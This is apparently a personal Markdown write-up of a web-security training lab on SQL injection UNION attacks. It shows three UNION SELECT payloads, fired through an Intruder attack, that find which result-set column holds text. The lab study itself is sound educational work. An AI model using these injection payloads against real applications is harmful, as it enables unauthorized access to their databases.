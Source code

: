# SQL injection UNION attack, finding a column containing text
#WRITEUP 
#UNION 

The same scenario from [[number of columns writeup]] is presented. 

The first step is to determine the number of columns of the result set.

![[scenario.png]]

The same number of columns is determined.

![[attack result.png]]

Then apply the following payloads on other `Intruder` attack:

```SQL
' UNION SELECT 'nAlKWn',NULL,NULL-- 
' UNION SELECT NULL,'nAlKWn',NULL-- 
' UNION SELECT NULL,NULL,'nAlKWn'--
```

![[data type payload.png]]

Placing the payload on the page the following appears:

![[Server-Side Vulnerabilities/SQLInjection/Attacks/UNION attacks/labs/SQL injection UNION attack, finding a column containing text/images/reflection.png]]

The second column of the result set can hold string data. The lab is solved!